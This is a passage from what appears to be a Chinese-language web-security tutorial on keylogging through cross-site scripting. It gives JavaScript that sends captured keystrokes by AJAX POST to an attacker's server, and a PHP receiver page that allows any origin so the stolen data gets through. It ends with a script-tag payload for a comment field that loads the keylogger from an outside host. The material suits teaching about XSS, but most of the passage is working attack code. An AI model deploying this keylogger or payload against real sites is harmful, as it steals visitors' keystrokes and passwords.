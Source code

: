 ```javascript
    show();
}

document.onkeypress = onkeypress;

function show() {
    ajax = createAjax();
    ajax.onreadystatechange = function () {
        if (ajax.readyState == 4) {
            if (ajax.status == 200) {
                var data = ajax.responseText;
            } else {
                alert("页面请求失败");
            }
        }
    }

    var postdate = xl;
    ajax.open("POST", "http://192.168.1.15/rserver.php",true);
    ajax.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    ajax.setRequestHeader("Content-length", postdate.length);
    ajax.setRequestHeader("Connection", "close");
    ajax.send(postdate);
}
```

`rserver.php`是我们服务器上用于接收键盘记录的页面。这里不能再使用任意URL然后看访问日志的方式。因为AJAX请求默认是受同源策略影响的，不能跨域进行请求。解决跨域请求的一个方法是，要请求的目标服务器在响应消息的头部中使用`Access-Control-Allow-Origin:xxx.com`来允许某些域可以发起跨域请求。

由于我们的目的就是要让它跨域发起请求发到我们的服务器上，所以我们用于接收键盘记录的页面编写为：

```php
<?php

//设置允许被任意域跨域访问
header("Access-Control-Allow-Origin:*");

$data = $_POST['datax'];

//保存到数据库
.......

?>
```

在留言处输入Payload`<script src=http://192.168.100.126/evil.js></script>`。之后在网页上按下的键都会被记录并发送到我们的接收页面。
